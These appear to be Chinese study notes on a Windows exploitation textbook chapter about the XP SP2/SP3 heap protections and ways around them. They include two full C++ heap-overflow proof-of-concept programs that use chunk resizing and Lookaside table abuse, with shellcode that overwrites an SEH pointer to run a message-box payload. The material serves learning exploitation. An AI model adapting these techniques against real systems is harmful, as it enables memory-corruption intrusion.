



# notes about chapter 15
## from 15.1

微软在之前堆的基础上增加了堆的安全校验：

1. PEB random
2. Safe Unlink

Safe Unlink机制：

Windows sp2之前链表的拆卸操作：

```
int remove (ListNode * node)
{
    node -> blink -> flink = node -> flink; 
    node -> flink -> blink = node -> blink; 
    return 0;
}
```


SP2在进行删除操作时，将提前验证堆块前向指针和后向指针的完整性，以防止发生DWORD SHOOT：

```
int safe_remove (ListNode * node)
{
    if( (node->blink->flink==node)&&(node->flink->blink==node) )
    {
        node -> blink -> flink = node -> flink; 
        node -> flink -> blink = node -> blink; 
        return 1;
    }
    else
    {
        链表指针被破坏，进入异常
        return 0;
    }
}
```

3. heap cookie
* cookie被布置在堆首部分原堆块的segment table的位置，占1个字节大小



4. 元数据加密


## from 15.4 利用chunk 重设大小攻击堆

freelist[0]

blink:0x003A0688

flink:0x003A0688

chunk:

0x003A0680:0x0130,0x0008

0x003A0688:0x003A0178,0x003A0178

windows xp pro sp3中开始拆卸链表地址：0x7C930F11

拆卸前（freelist[0]指向尾块）：

地址|十六进制数据|十六进制数据
----|---------------------|----------
003A0178|88 06 3A 00|88 06 3A 00

链表拆卸完毕后：

地址|十六进制数据|十六进制数据
----|---------------------|----------
003A0178|78 01 3A 00|78 01 3A 00

然后将旧chunk flink赋值给新的chunk flink，将旧chunk->flink->blink=新chunk->blink的：


旧chunk->flink->blink->flink=新chunk的指针结构的起始地址：


总结：

```
1 // 设置 new_chunk
2 new_chunk->Flink = old_chunk->Flink
3 new_chunk->Blink = old_chunk->Flink->Blink 
4 // 将 new_chunk 插入到 FreeList[]
5 old_chunk->Flink->Blink->Flink = new_chunk
6 old_chunk->Flink->Blink = new_chunk
```

可以看到old_chunk->Flink->Blink->Flink = new_chunk存在dword shoot漏洞，如将old_chunk->Flink 覆盖为 0xAAAAAAAA，则：

```
[new_chunk->Flink] = 0xAAAAAAAA
[new_chunk->Blink] = [0xAAAAAAAA+4]             
[[0xAAAAAAAA+4]] = new_chunk   // DWORD SHOOT    
[0xAAAAAAAA+4] = new_chunk                   
```

代码：

```C++
#include <stdio.h>
#include <windows.h>
 
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x10\x01\x10\x00\x99\x99\x99\x99"

"\xEB\x06\x3a\x00\xEB\x06\x3a\x00"

"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xEB\x31\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

"\x11\x01\x10\x00\x99\x99\x99\x99\x8C\x06\x3a\x00\xb4\xFF\x12\x00"
"\x90\x90\x90\x90"

"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

void main()
{	
	HLOCAL h1,h2;
	HANDLE hp;
	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
		h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	int zero=0;
	zero=1/zero;
	printf("%d",zero);
}

```

memcpy之前的chunk结构：



若将旧的chunk flink blink 覆盖为0x003A06EB，将0x003A06EB覆盖为SEH地址0x0012FFB4，第二次申请的时候会有：

```
[0x003A06B8]=0x003A06EB
[0x003A06B8+4]=0x0012FFE4
[0x0012FFE4]= 0x003A06B8
[0x003A06EB+4]=0x003906B8
```

覆盖完毕：


通过两个跳转跳到shellcode：


执行shellcode：



## from 15.4 利用Lookaside 表进行堆溢出

代码：

```C++

#include <stdio.h>
#include <windows.h>
 
	char shellcode []=
	"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x03\00\x03\x00\x5C\x01\x08\x99"//填充
	"\xb4\xFF\x12\x00"//用默认异常处理函数指针所在位置覆盖 //根据实际情况调整
 
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//填充
 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
	"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

 
void main()
{
	HLOCAL h1,h2,h3;
	HANDLE hp;
	hp = HeapCreate(0,0,0);
	//__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	HeapFree(hp,0,h3);
	HeapFree(hp,0,h2);
	memcpy(h1,shellcode,300);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h3,"\x90\x1E\x3a\x00",4);
	int zero=0;
	zero=1/zero;
	printf("%d",zero);
}
```